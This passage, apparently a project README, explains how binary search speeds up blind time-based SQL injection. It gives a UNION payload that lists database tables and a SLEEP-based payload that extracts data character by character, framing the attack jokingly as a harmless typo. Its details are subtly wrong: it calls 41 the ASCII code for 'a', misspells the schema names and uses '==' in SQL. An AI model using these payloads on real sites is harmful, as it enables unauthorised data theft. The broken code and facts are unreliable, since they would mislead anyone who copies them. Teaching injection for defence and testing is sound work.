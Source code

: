 # How is binary search useful?
Well, just by itself, it's not. The example code already knows the secret_value, so there is absolutely no need to deduce it. But there are certain scenario's where one might not actually know the secret_value. Then this little algorithm gets radically more interesting. 

For example, consider this rather common sql query which is uses in many webapplications:

```sql
SELECT x,y FROM z WHERE z.id=10 
```

The value 10 is often supplied by the user. If this value is not properly validated or sanitized, any innocent bystander might make a typo in the URL-bar and turn the query into this:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
UNION SELECT 1,GROUP_CONCAT(table_name) 
  FROM information_scheme.tables 
  WHERE table_schema = database()
```

However, more often than not, the webpage doesn't directly show the results of the query directly. This oversight severely limits the websites' functionality. But it doesn't need to stay this way. Consider the following convoluted query carefully:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
AND IF( 
    ASCII(
        SUBSTRING(	
            (SELECT GROUP_CONCAT(table_name) 
	    FROM information_schema.tables 
	    WHERE table_scheme = database()),
	    1,1
        )
    ) == 41,
    SLEEP(5),
    NULL
)
```
The inner SELECT may return any string, in this case, a concatenation of all table names. Then the IF-statement tests if the first character of this string is equal to 41 (which is the ascii value for 'a'). If this is the case, the database will go sleepy-time for 5 seconds. But if the website is responding quickly, we guessed the first letter wrong. We monitor the response-times closely to see if we have guessed correctly.

Next we query for 'b', 'c', 'd', etc. And once we have a winner, we increment the SUBSTRING-index and continue with the second character, and so on and so forth, Until we know the entire string. This will ofcourse, take ages. Not only do we need to try all a-z and A-Z, but also a bunch of special characters (about 65 in total).

Lets make an optimistic calculation of the time needed for a SMS-message sized string (160 characters):
```
160 characters * ~32 wrong guesses * 1 sec per wrong guess =  5120 seconds
160 characters * 1 correct guess * 2 sec per correct guess = 320 seconds
5120 sec + 320 sec = 5420 sec = about 1.5 hour
```
My life is too short to wait for this. So I wrote binary search in the meanwhile.  
